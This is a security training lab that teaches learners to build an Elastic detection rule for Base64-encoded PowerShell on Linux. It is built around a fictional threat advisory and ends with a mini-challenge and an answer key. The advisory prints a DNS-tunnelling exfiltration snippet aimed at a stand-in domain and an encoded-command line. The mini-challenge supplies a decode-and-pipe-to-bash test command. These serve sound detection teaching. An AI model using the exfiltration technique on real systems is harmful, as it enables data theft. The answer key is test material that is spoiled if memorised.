

# Detection Rules in Logging Made Easy

This lab introduces alerting rules in Elastic and guides the learner through the process of creating a custom alerting rule to identify potentially malicious behavior.

CISA regularly publishes <a href="https://www.cisa.gov/news-events/cybersecurity-advisories" target="_blank">Cybersecurity Alerts and Advisories</a> that give information about the Tactics, Techniques, and Procedures (TTPs) used by threat actors. Reviewing and mapping TTPs to detection rules can help you to identify gaps in your logging and alerting infrastructure.

| &#9201; LAB TIME |
|---|
| This lab is expected to take one (1) hour. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION |
|---|
| You must complete _all_ phases of the lab and mini-challenge to receive your completion certificate. We encourage you to attempt the mini-challenge on your own, but a link to the solution guide is available in the Mini-Challenge section of the lab document if you need it. |

## Learning Objectives
- Verify logs with appropriate fields are received by the Elastic server
- Examine prebuilt alerting rules within Elastic
- Construct an Elastic query to search logs for potentially malicious behavior
- Verify alerts are generated by the custom alerting rule

## Learner Expectations
- Have familiarity with log generation and log sources
- Be comfortable navigating within the Elastic interface

## FOCAL and NICE Framework Mappings
This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 5 (incident detection and response) by enabling an organization to detect and respond to threats through log collection and correlation.

**NICE Work Role**
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity</a>

**NICE Tasks**
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1347</a>: Detect cybersecurity attacks and intrusions.
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1350</a>: Perform continuous monitoring of system activity.

<!-- cut -->

## Scenario

Your organization recently received a Security Advisory. After reviewing, your manager assigned you to verify that an alert would be generated if encoded commands are run using PowerShell on a Linux system.

| &#8505; NOTE |
| --- |
| The Security Advisory listed below is a work of fiction. It follows a format consistent with published Security Advisories and incorporated TTPs that have been observed by real world threat actors. The content including names, dates, targeted sectors, geographic focus, and example commands is used in a fictitious manner. They have been fabricated for use in this lab environment. |

-----

### Security Advisory: TA-20XX-XXX - Base64-Encoded PowerShell Exfiltration Campaign

- **Advisory ID**: TA-20XX-XXX
- **Advisory Type**: Threat Actor Activity - Ongoing
- **Threat Actor**: "WOLFRAM URSA"
- **Targeted Sectors**: Government, Defense, Legal, Research
- **Geographic Focus**: North America, Western Europe, Australia
- **Date Issued**: July 9, 20XX
- **Severity**: HIGH

#### Executive Summary

WOLFRAM URSA, a threat group with suspected ties to a nation-state intelligence service, has been observed conducting a stealthy data exfiltration campaign across multiple high-value targets. The actor leverages **Living off the Land Binaries (LOLBins)**, primarily **PowerShell**, to execute **Base64 encoded commands** that evade traditional detection. Data is collected, encoded, and exfiltrated using covert channels including HTTP POSTs to compromised infrastructure and DNS tunneling.

The campaign has been active since **May 20XX**, with observed TTPs indicating operational maturity, modular payloads, and deep knowledge of Windows internal tooling.

#### Observed Tactics, Techniques, and Procedures (TTPs)

##### Initial Access
- **T1566.001 - Spearphishing Attachment**: Malicious Excel documents containing macro payloads.

##### Execution
- **T1059.001 - PowerShell**: Execution of Base64-encoded PowerShell from memory.
  ```powershell
  powershell.exe -EncodedCommand JABjAD0AIgBoAHQAdABwADoALwAvAGMAbwBtAHAAbABvAGMAYQB0AGUAZABoAG8AcwB0AC4AYwBvAG0ALwBleABmACIAOwAkAHIA
  ```

##### Defense Evasion
- **T1027.001 - Binary Encoding (Base64)**: Scripts encoded to avoid static detection.
- **T1055.012 - PowerShell Assembly Injection**: In-memory .NET payloads via System.Reflection.
- **T1218.005 - Mshta**: Used for execution of script-based stagers.

##### Credential Access
- **T1003.001 - LSASS Memory Dumping**: Via rundll32.exe comsvcs.dll, MiniDump.

##### Collection
- **T1114 - Email Collection**: Accessed Outlook .pst and .ost files via PowerShell.
- **T1005 - Data from Local System**: Sensitive files staged in `%APPDATA%\Temp\projcache\`.

##### Exfiltration
- **T1041 - Exfiltration Over C2 Channel**: Chunked Base64 data sent via HTTPS POST.
- **T1048.003 - DNS Tunneling**:
  ```powershell
  $data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("sensitive.pdf"))
  $chunks = $data -split "(.{50})" | Where-Object { $_ -ne "" }
  foreach ($chunk in $chunks) {
  nslookup "$chunk.exfildomain.com"
  }
  ```

-----

| &#9888; NOTE |
|---|
| Auditd and the Elastic Agent are pre-installed on the **workstation** virtual machine. An auditd rule is in place to audit the execution of the PowerShell binary. |

## System Tools and Credentials

| system | IP address | operating system |  username | password |
|--------|---------|-----------|----------| ----- |
| workstation | 10.1.1.51 | Ubuntu | user | tartans|

## Applications
| Application | URL | Username | Password |
| --- | --- | --- | --- |
| Elastic | `https://elastic.skills.lab` | user | tartans |

## Phase 1

<details>
<summary>
<h3>Verifying System Logging</h3>
</summary>
<p>

Begin by establishing a baseline. Verify that logs are being received by Elastic and they contain the level of detail necessary. Determine if alerting is already in place. To test we use a non-malicious base64 encoded command. You may recognize this as the same command used in the "Living off of the Land" skilling lab.

1. Open the `workstation` console.

2. (**Workstation**) Locate the text file "pwsh-encoded-command" on the Desktop and double-click to open it. If an "Authentication required" pop-up appears, enter the password `tartans` and click **Unlock**.

    

3. (**Workstation**, **Visual Studio Code**) The text file has a single PowerShell (pwsh) command encoded in Base64. Highlight and copy the entire command.

| &#128270; WHAT IS ENCODED IN THE BASE64 STRING? |
| --- |
| The obfuscated command gathers the hostname, IP address, and executing user. It then exfiltrates the data to a listening server within the network. |

4. (**Workstation**, **Visual Studio Code**) Minimize the Visual Studio Code window.

5. (**Workstation**) Open a Terminal by clicking on the Terminal shortcut in the left launcher.

    

6. (**Workstation**, **Terminal**) Right-click and select **Paste** to paste the command you copied into the Terminal.

    

7. (**Workstation**, **Terminal**) Press <kbd>Enter</kbd> to run the command. You should receive an output with a Status Code 200 indicating it completed successfully.

    

| &#128204; This command will be run multiples times during this lab. Keep the Terminal window open so you can quickly return to it. |
| --- |

8. (**Workstation**) Open Firefox by clicking on the Firefox shortcut in the left launcher.

    

9. (**Workstation**, **Firefox**) If not already selected, click the "Elastic" browser tab.

| &#8987; IT CAN TAKE UP TO FIVE (5) MINUTES FOR ELASTIC TO FULLY START. |
| --- |
| If you see a "502 Bad Gateway" or "Timeout" page when accessing Elastic, wait a few minutes and then refresh the page. |

10. (**Workstation**, **Firefox**) Type the username `user` and the password `tartans` to connect to Elastic.

    

11. (**Workstation**, **Firefox**, **Elastic**) In the upper left, click &#9776; to open a menu.

    

12. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Analytics, click **Discover**.

    

13. (**Workstation**, **Firefox**, **Elastic**) Click the down arrow to open the Data view menu.

    

14. (**Workstation**, **Firefox**, **Elastic**) Change the "Data view" to "All logs".

    

15. (**Workstation**, **Firefox**, **Elastic**) In the Filter bar, type `event.module: "auditd"`.

    

16. (**Workstation**, **Firefox**, **Elastic**) The results are filtered to show only logs from the `auditd` module. To further filter results we can add to the filter query or use the left-hand menu.

17. (**Workstation**, **Firefox**, **Elastic**) In the left-hand menu, locate the "Search field names" bar. Type "process.title" to locate the `process.title` field.

    

18. (**Workstation**, **Firefox**, **Elastic**) Click the "Add field as column" (&#8853;) button to add a column for the "process.title" field.

    

19. (**Workstation**, **Firefox**, **Elastic**) Reviewing the "process.title" column you can confirm that the log, including the full command, was received.

    

| &#129513; KEY POINT |
| --- |
| This confirms logs are being sent by the Elastic Agent to Elastic. It also confirms the `auditd` rule is capturing the events and details we want. |

20. (**Workstation**, **Firefox**, **Elastic**) In the upper left, click &#9776; to open a menu.

21. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Security, click **Alerts**.

    | &#9888; MAKE SURE YOU CLICK "ALERTS" UNDER SECURITY AND NOT UNDER OBSERVABILITY. |
    | --- |

    

22. (**Workstation**, **Firefox**, **Elastic**) There are no open alerts.

    

</p>
</details>

<details>
<summary>
<h3>Grading Check</h3>
</summary>
<p>

1. (**Workstation**, **Firefox**) Browse to `https://skills.hub/lab/tasks` or click **Tasks** from the Skills Hub landing page.

2. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Review the two (2) task knowledge check questions.
    - **Knowledge Check 1**: True or False? The command from the Security Advisory is the same command being used to validate alerting within the lab environment.
    - **Knowledge Check 2**: True or False? Within the Discover page, there is no way to add log field names as a column.

3. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Click the radio button next to your answer and click **Submit** to check your answers.

4. (**Workstation**, **Firefox**, **Skills Hub Grading Results**) A correct answer provides a "Result" token. Copy this eight (8) character hex token into the corresponding question submission field to receive credit.

*Complete all Phase 1 tasks before moving on to Phase 2.*

</p>
</details>

## Phase 2

<details>
<summary>
<h3>Exploring Predefined Elastic Security Rules</h3>
</summary>
<p>

Elastic Security Rules are predefined or custom detection rules that continuously monitor ingested data for suspicious or malicious activity. When a rule's conditions are met a detection alert is generated. This enables security teams to quickly identify, investigate, and respond to potential threats in real time, enhancing threat detection and incident response across their environment.

1. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Security, click **Rules**.

    

2. (**Workstation**, **Firefox**, **Elastic**) Click **Detection rules (SIEM)**.

    

3. (**Workstation**, **Firefox**, **Elastic**) Click the **Tags** filter box.

    

4. (**Workstation**, **Firefox**, **Elastic**) In the "Search tags" box, type "OS: Linux". Click **OS: Linux** to select it.

    

5. (**Workstation**, **Firefox**, **Elastic**) In the search bar, type "Base64". Press <kbd>Enter</kbd> on your keyboard to apply your search.

    

6. (**Workstation**, **Firefox**, **Elastic**) Two (2) rules are displayed. Both rules look for Base64 being decoded, which is not the behavior we are looking for. They also do not look for the PowerShell binary.

| &#128270; A CLOSER LOOK AT THE RULES |
| --- |
| **Base64 Decoded Payload Piped to Interpreter** Detects suspicious behavior on Linux systems by identifying a sequence of base64 decoding followed by command execution. This query aims to catch malicious behavior that bypasses static signature-based detection.<br><br>**Unusual Base64 Encoding/Decoding Activity** Looks for base64 decoding activity on Linux endpoints within the past hour. It attempts to filter low-volume and  isolated activity that may be malicious. |

7. (**Workstation**, **Firefox**, **Elastic**) Click **Clear filters**.

    

8. (**Workstation**, **Firefox**, **Elastic**) Click the **Tags** filter box.

9. (**Workstation**, **Firefox**, **Elastic**) In the "Search tags" box, type "Sigma Linux".  Click **Sigma Linux** to select it.

    

| &#128736; WHAT IS A SIGMA RULE? |
| --- |
| Sigma rules are a standardized format for writing detection signatures to identify suspicious activity in log files. These rules are written in YAML and describe patterns of behavior, such as specific command-line arguments, process launches, or event IDs that could indicate malicious activity. Sigma rules need to be converted to a format Elastic can use. CISA's Logging Made Easy includes a [Sigma to Kibana conversion script](https://cisagov.github.io/lme-docs/docs/markdown/integrations/sigma-rules/) for adding Sigma rules to Elastic. It was used to add these Sigma rules into the environment for this lab. |

10. (**Workstation**, **Firefox**, **Elastic**) In the search bar, type "Base64". Press <kbd>Enter</kbd> on your keyboard to apply your search.

    

11. (**Workstation**, **Firefox**, **Elastic**) Two (2) rules are displayed. Reviewing the rules, they both look for Base64, but neither look for encoded commands being run. They also do not look for the PowerShell binary.

| &#128270; A CLOSER LOOK AT THE RULES |
| --- |
| **SIGMA - Linux Base64 Encoded Shebang In CLI** Looks for common shell interpreter shebangs (`#!`) that are encoded in Base64.<br><br>**SIGMA - Linux Base64 Encoded Pipe to Shell** Detects base64-encoded payloads being decoded and piped (`\|`) directly into a shell interpreter. |

12. (**Workstation**, **Firefox**, **Elastic**) Click **Clear filters**.

    

13. (**Workstation**, **Firefox**, **Elastic**) In the search bar, type "Base64".

14. (**Workstation**, **Firefox**, **Elastic**) Press <kbd>Enter</kbd> to search. Nineteen (19) results are returned.

15. (**Workstation**, **Firefox**, **Elastic**) In the results, locate "SIGMA - Suspicious Execution of PowerShell with Base64"

16. (**Workstation**, **Firefox**, **Elastic**) Click to open the rule.

17. (**Workstation**, **Firefox**, **Elastic**) Within the Definition panel, the following custom query is present:

    

```kql
((process.executable:(*\\powershell.exe OR *\\pwsh.exe)) AND (process.command_line:(*\ \-e\ * OR *\ \-en\ * OR *\ \-enc\ * OR *\ \-enco* OR *\ \-ec\ *))) AND (NOT (process.command_line:*\ \-Encoding\ * OR (process.parent.executable:(*C\:\\Packages\\Plugins\\Microsoft.GuestConfiguration.ConfigurationforWindows\\* OR *\\gc_worker.exe*))))
```

| &#128270; BREAKING DOWN THE CUSTOM QUERY |
| --- |
| `(process.executable:(*\\powershell.exe OR *\\pwsh.exe))`<br>Looks for processes whose executable paths end in powershell.exe or pwsh.exe. This captures both Windows PowerShell and PowerShell Core.<br><br>`(process.command_line:(*\ \-e\ * OR *\ \-en\ * OR *\ \-enc\ * OR *\ \-enco* OR *\ \-ec\ *))`<br>Detects PowerShell command lines that include switches for base64-encoded commands including: `-e`, `-en`, `-enc`, `-enco`, and `-ec`. These are partial or abbreviated forms of `-EncodedCommand` that can be used by attackers to avoid simple string matches or to obfuscate.<br><br>`NOT (process.command_line:*\ \-Encoding\ *)`<br>Excludes triggering the rule when `-Encoding` is used in the command line since it can be used for legitimate scenarios, such as `Out-File` or `Set-Content`. This is included to reduce false positives.<br><br>`NOT (process.parent.executable:(*C\:\\Packages\\Plugins\\Microsoft.GuestConfiguration.ConfigurationforWindows\\* OR *\\gc_worker.exe*))`<br>Excludes triggering the rule when the parent process is part of Microsoft Guest Configuration (gc_worker.exe). These are known, legitimate uses of encoded PowerShell, typically for system configuration or compliance enforcement in Azure or managed environments. |

This rule looks promising compared to the previous four. It looks for the PowerShell binary and for a Base64 encoded command to be run. Here specifically it is interesting to see that it accounts for abbreviated versions of `-EncodedCommand`.

</p>
</details>

<details>
<summary>
<h3>Grading Check</h3>
</summary>
<p>

1. (**Workstation**, **Firefox**) Browse to `https://skills.hub/lab/tasks` or click **Tasks** from the Skills Hub landing page.

2. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Review the one (1) task knowledge check question.
    - **Knowledge Check 3**: True or False? Sigma rules are included by default within every Logging Made Easy installation.

3. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Click the radio button next to your answer and click **Submit** to check your answer.

4. (**Workstation**, **Firefox**, **Skills Hub Grading Results**)  A successful configuration check provides a "Result" token. Copy this eight (8) character hex token into the corresponding question submission field to receive credit.

*Complete all Phase 2 tasks before moving on to Phase 3.*

</p>
</details>

## Phase 3

<details>
<summary>
<h3>Creating Custom Rules</h3>
</summary>
<p>

There is no predefined rule that fits our needs. Fortunately, Elastic lets us create our own. In Phase 1 you verified the logs we are interested in are being received. We can use those logs to help build a custom security rule.

1. (**Workstation**, **Firefox**, **Elastic**) In the upper left, click &#9776; to open a menu.

    

2. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Analytics, click **Discover**.

    

3. (**Workstation**, **Firefox**, **Elastic**) Click the down arrow to open the "Data view" menu.

    

4. (**Workstation**, **Firefox**, **Elastic**) Change the "Data view" to "All logs".

    

5. (**Workstation**, **Firefox**, **Elastic**) In the "Search field names" bar, type "process.executable".

    

6. (**Workstation**, **Firefox**, **Elastic**) Click the "Add field as column" (&#8853;) button to add a column for the "process.executable" field.

    

7. (**Workstation**, **Firefox**, **Elastic**) Using the Windows rule from the end of Phase 2 as a guide, search for PowerShell (pwsh) as a `process.executable` by typing the command  `process.executable:*pwsh` in the Filter bar. Press <kbd>Enter</kbd> to run the command.

    

8. (**Workstation**, **Firefox**, **Elastic**) Examining the returned results the process executables `/usr/bin/pwsh` and `/opt/microsoft/powershell/7/pwsh` are present.

    

9. (**Workstation**, **Firefox**, **Elastic**) `pwsh` is the PowerShell binary on Linux. Verify if a binary named PowerShell is present by typing the command `process.executable:*power*` in the Filter bar.

    

    A single result is returned because the binary path contains the word "powershell". Note that this result was returned previously.

    

| &#129513; We have created the first part of our rule: `process.executable:*pwsh`. If we configured our rule to just use the PowerShell binary, we would likely receive false positives. To narrow our query, we want results where `-EncodedCommand` is also used. |
| --- |

10. (**Workstation**, **Firefox**, **Elastic**) Click the red X to remove the "process.executable" field from the table.

    

11. (**Workstation**, **Firefox**, **Elastic**) In the "Search field names" bar, type "process.command_line".

12. (**Workstation**, **Firefox**, **Elastic**) Click the "Add field as column" (&#8853;) button to add a column for the "process.command_line" field.

    

13. (**Workstation**, **Firefox**, **Elastic**) Using the Windows rule as a guide, search the "command_line" field for the word "EncodedCommand by typing the query  `process.command_line: *EncodedCommand*` in the Filter bar. Press <kbd>Enter</kbd> to run the command.

    

    A result is returned and in the "process.command_line" column notice the command you ran from the Terminal. It seems we found our command, but recall the Windows rule contained the filter: `process.command_line:(* -e * OR * -en * OR * -enc * OR * -enco*)`, will these commands run?

    

14. (**Workstation**) Re-open the Terminal by clicking on the Terminal shortcut in the left launcher.

15. (**Workstation**, **Terminal**) Press the up arrow on your keyboard to recall the previously run command.

16. (**Workstation**, **Terminal**) Press the left arrow on your keyboard to navigate within the command. Modify the `-EncodedCommand` portion of the command so it is just `-E`.

    

17. (**Workstation**, **Terminal**) Press <kbd>Enter</kbd> to run the command. The command completes successfully.

18. (**Workstation**) Return to Elastic by clicking on the Firefox shortcut in the left launcher.

19. (**Workstation**, **Firefox**, **Elastic**) Click "Refresh query" to load any new logs. Note that no new logs are displayed.

    

| &#129513; No new logs are displayed because the filter is looking for "EncodedCommand" but the command you just ran used only "E". |
| --- |

20. (**Workstation**, **Firefox**, **Elastic**) Modify the query command to search for "-E" by typing the query `process.command_line: *-E*` in the Filter bar.

21. (**Workstation**, **Firefox**, **Elastic**) Click "Refresh query" to load any new logs.

22. (**Workstation**, **Firefox**, **Elastic**) In the returned results are both the original "EncodedCommand" and the "-E" command you just ran.

    

23. (**Workstation**) Re-open the Terminal by clicking on the Terminal shortcut in the left launcher.

24. (**Workstation**, **Terminal**) Press the up arrow on your keyboard to recall the previously run command.

25. (**Workstation**, **Terminal**) Press the left arrow on your keyboard to navigate within the command. Modify the `-E` portion of the command so it is just `-e`.

26. (**Workstation**, **Terminal**) Press <kbd>Enter</kbd> to run the command. The command completes successfully.

27. (**Workstation**) Return to Elastic by clicking on the Firefox shortcut in the left launcher.

28. (**Workstation**, **Firefox**, **Elastic**) Click "Refresh query" to load any new logs. Note that no new logs are displayed.

29. (**Workstation**, **Firefox**, **Elastic**) Modify the query command to search for "-e" by typing the query `process.command_line: *-e*` in the Filter bar.

30. (**Workstation**, **Firefox**, **Elastic**) Click "Update" to load any new logs. In the returned results you should see the command you just ran but notice that the commands you ran previously ("EncodedCommand" and "-E") are not shown.

    

| &#129513; CASE MATTERS |
| --- |
| When creating queries, it is important to understand when case matters. In Kibana the ".caseless" suffix can be added to some fields to make them case insensitive. |

31. (**Workstation**, **Firefox**, **Elastic**) Modify the query to use the caseless suffix by typing the query `process.command_line.caseless: *-e*` in the Filter bar.

    

32. (**Workstation**, **Firefox**, **Elastic**) Click "Update" to refresh the page. In the returned results you should see all three of the previously run commands. This creates the second part of our rule.

    

33. (**Workstation**, **Firefox**, **Elastic**) You may notice unwanted results from your current query. To verify the full query targets only the logs we are interested in, type the query `process.executable:*pwsh AND process.command_line.caseless: *-e*`

    

    Only PowerShell with variations of the "Encoded Command" will be returned.

    

| &#129513; We refined our query to focus on the logs we are interested in. We can now work on creating a rule so we can be alerted if logs matching our query are received. |
| --- |

34. (**Workstation**, **Firefox**, **Elastic**) In the upper left, click &#9776; to open a menu.

    

35. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Security, click **Rules**.

    

36. (**Workstation**, **Firefox**, **Elastic**) Under "Management", click **Detection rules (SIEM)**.

    

37. (**Workstation**, **Firefox**, **Elastic**) In the upper right, click **Create new rule**.

    

38. (**Workstation**, **Firefox**, **Elastic**) Verify that "Custom query" is selected.

    

39. (**Workstation**, **Firefox**, **Elastic**) Under "Custom query", type the crafted query: `process.executable:*pwsh AND process.command_line.caseless: *-e*`.

    

40. (**Workstation**, **Firefox**, **Elastic**) Click **Continue**.

41. (**Workstation**, **Firefox**, **Elastic**) Under "About rule", type the name "Suspicious Execution of PowerShell with Base64 - Linux".

    

    | &#9888; MAKE SURE YOUR RULE NAME MATCHES EXACTLY IN ORDER FOR THE GRADING CHECK TO COMPLETE SUCCESSFULLY! |
    | --- |

42. (**Workstation**, **Firefox**, **Elastic**) Type the description "Detects PowerShell being run with the EncodedCommand parameter".

    

43. (**Workstation**, **Firefox**, **Elastic**) Under "Default severity", click the arrow to open the dropdown menu and select "High".

    

44. (**Workstation**, **Firefox**, **Elastic**) Click **Continue**.

45. (**Workstation**, **Firefox**, **Elastic**) Keep the default schedule and click **Continue**.

    

46. (**Workstation**, **Firefox**, **Elastic**) Click **Create & enable rule**.

47. (**Workstation**) Re-open the Terminal by clicking on the Terminal shortcut in the left launcher.

48. (**Workstation**, **Terminal**) Press the up arrow on your keyboard to recall the previously run command.

49. (**Workstation**, **Terminal**) Press <kbd>Enter</kbd> to run the command.

50. (**Workstation**) Return to Elastic by clicking on the Firefox shortcut in the left launcher.

51. (**Workstation**, **Firefox**, **Elastic**) In the upper left, click &#9776; to open a menu.

    

52. (**Workstation**, **Firefox**, **Elastic**) In the left menu under Security, click **Alerts**. A High severity alert will appear.

    | &#9888; MAKE SURE YOU CLICK "ALERTS" UNDER SECURITY AND NOT UNDER OBSERVABILITY. |
    | --- |

    

    | &#8505; Recall that the rule runs every five (5) minutes. It may take a few minutes for your alert to appear. You may also need to Refresh the page. |
    | --- |

    

</p>
</details>

<details>
<summary>
<h3>Grading Check</h3>
</summary>
<p>

1. (**Workstation**, **Firefox**) Browse to `https://skills.hub/lab/tasks` or click **Tasks** from the Skills Hub landing page.

2. (**Workstation**, **Firefox**, **Skills Hub Tasks**) The following one (1) Knowledge Check and one (1) grading check will be performed:
    - **Knowledge Check 4**: Multiple Choice - What suffix is used with certain queries to make them case insensitive?
    - **Grading Check 1** will perform a check to confirm the "Suspicious Execution of PowerShell with Base64 - Linux" rule has been created and enabled. It will then verify an alert has been generated from that rule.

3. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Click **Submit** to check if your configurations are correct.

4. (**Workstation**, **Firefox**, **Skills Hub Grading Results**) A successful configuration check provides a "Result" token. Copy this eight (8) character hex token into the corresponding question submission field to receive credit.

*Complete all Phase 3 tasks before moving on to the mini-challenge.*

</p>
</details>

## Mini Challenge

<details>
<summary>
<h3>Mini-Challenge Scenario</h3>
</summary>
<p>

Your manager provides you with an additional Security Advisory discussing base64 being decoded and piped to Bash to execute malicious binaries without writing to disk. This method bypasses many traditional detection methods, and your organization wants to ensure they would get alerts.

You have been provided with the command below to test with:

```bash
echo ZWNobyAiSGVsbG8gV29ybGQi | base64 -d | bash
```

Enable a rule that would generate a medium alert when logs with a similar format to the example command are received.

| &#8505; RULE NAMING |
|---|
| Name your rule **Mini-Challenge** if you create your own. |

### Mini-Challenge Grading Check

1. (**Workstation**, **Firefox**) Browse to `https://skills.hub/lab/tasks` or click **Tasks** from the Skills Hub landing page.

2. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Grading Check 2 will verify an appropriate rule has been enabled to detect the described behavior. It will then verify an alert has been generated from that rule.

3. (**Workstation**, **Firefox**, **Skills Hub Tasks**) Click **Submit** to check if your configurations are correct. *Your rule must contain a proper query AND an alert must exist that was triggered by that rule.*

4. (**Workstation**, **Firefox**, **Skills Hub Grading Results**) A successful configuration check provides a "Result" token. Copy this eight (8) character hex token into the corresponding question submission field to receive credit.

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide by using the link below*

</p>
</details>

## Lab Wrap Up

<details>
<summary>
<h3>Conclusion</h3>
</summary>
<p>

By completing this lab, you were able to practice configuring rules within Elastic. You were able to see how properly configured rules reduce false positives while still generating alerts when potentially malicious behavior is identified in logs.

During this lab, you:
- Confirmed logs with sufficient detail were being received by Elastic
- Reviewed prebuilt Elastic alert rules to see if any met your use case
- Crafted a custom query to detect potentially malicious behavior based on a Security Advisory
- Created a custom Elastic alert rule to enable alert generation if the malicious behavior is detected

Skills exercised:
- S0566: Skill in developing signatures
- S0838: Skill in identifying anomalous activities
- S0846: Skill in monitoring system activity

### References

 - <a href="https://www.cisa.gov/news-events/cybersecurity-advisories" target="_blank">Cybersecurity Alerts and Advisories</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
 
</p>
</details>

<details>
<summary>
<h3>Answer Key</h3>
</summary>
<p>

**Knowledge Check 1**: True or False? The command from the Security Advisory is the same command being used to validate alerting within the lab environment.
- ANSWER: False - A benign command is being used.

**Knowledge Check 2**: True or False? Within the Discover page, there is no way to add log field names as a column.
- ANSWER: False

**Knowledge Check 3**: True or False? Sigma rules are included by default within every Logging Made Easy installation.
- ANSWER: False - Sigma rules can be ADDED to a Logging Made Easy installation by running a provided script, but they are not included (installed) by default.

**Knowledge Check 4**: Multiple Choice - What suffix is used with certain queries to make them case insensitive?
- ANSWER: .caseless

**Grading Check 1**: Check that the rule has been created AND an alert has been received.
- SOLUTION: Following the steps in Phase 3 will allow the grading script to complete successfully.

**Grading Check 2**: Check that the rule has been created AND an alert has been received.
SOLUTION:
- You are asked to enable a rule that would detect the decoding of base64 being sent to Bash.
- Recall in Phase 2, Step 6, predefined detection rules were examined. One of these rules, "Base64 Decoded Payload Piped to Interpreter", identifies base64 being decoded and piped to an interpreter shell. Enabling this rule and running the example command results in an alert that satisfies the grading script.

ALTERNATIVE:
- A custom detection rule with the name "Mini-Challenge" will also satisfy the grading script. Below is an example of a query which could be used.

```kql
process.command_line:*base64 -d* and process.parent.command_line:*bash*
```

</p>
</details>